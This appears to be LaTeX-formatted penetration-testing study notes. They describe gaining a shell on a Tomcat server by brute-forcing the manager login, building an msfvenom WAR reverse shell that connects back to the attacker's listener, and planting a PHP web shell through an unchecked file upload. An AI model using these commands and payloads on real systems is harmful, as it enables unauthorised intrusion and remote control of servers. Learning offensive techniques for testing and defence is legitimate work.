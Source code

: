 \documentclass{article}[12pt]
\begin{document}
\paragraph{Tomcat Java servlet upload}
In this example I describe how remote code execution is done basing on servlet upload on tomcat server.
Lets consider tomcat server works on 10.10.10.10:8080 port (we know this from nmap).
We also know from nmap that operating system is Windows x65
Now we enumerate tomcat users using \texttt{auxiliary/scanner/http/tomcat\_mgr\_login}.
Lets assume enumeration gives: \texttt{tomcat:tomcat}.
Once the tomcat user is logged in go to place when WAR files are uploaded.
Make payload using \texttt{msfvenom -p windows/x64/shell/reverse\_tcp lhost\=192.168.1.4 -f war>tom.war} (\texttt{-f war} stands for format of input file and \texttt{lhost} is our host).
If war file has been compiled you can check what is inside by: \texttt{jar tvf <file-name>.war}.
There is file with .jsp extension and this file will execute shell and transmit it to our listener.
Now upload .war file on the server and run in the msfconsole \texttt{multi/handler}.
Multi-handling listener will run in terminal and will be wating for connections coming from remote machine.
Last step is to go to \texttt{http://10.10.10.10:8080/...../<war-file-name>/<jsp-file-name>.jsp}.
Finally you should see remote terminal and execute commands remotely.

\subsection{Buffer Overflow}


\subsection{PHP script injection}
\label{subsec:phpinjection}
Some websites allows users to upload content other than text e.g photos, movies, games and many other odd file formats.
While it is not properly controlles what type is being saved user is able to embeed PHP code which will be executed every time while trying to "see" uploaded content.
The vulnerability here is the remote shell execution.
PHP code which executes shell is simple : \texttt{echo shell\_exec(<shell script>);}, where shell script is the one executed by shell on local server.
In order to run the script you should find possibility to embeed the following script on the html page: \texttt{<?php echo shell\_exec(\$\_GET['variable']); ?>}.
In this scenario every time you open the page you added  the code to
you will be able to send shell commands remotely by passing them as GET variable via URI.
\end{document}
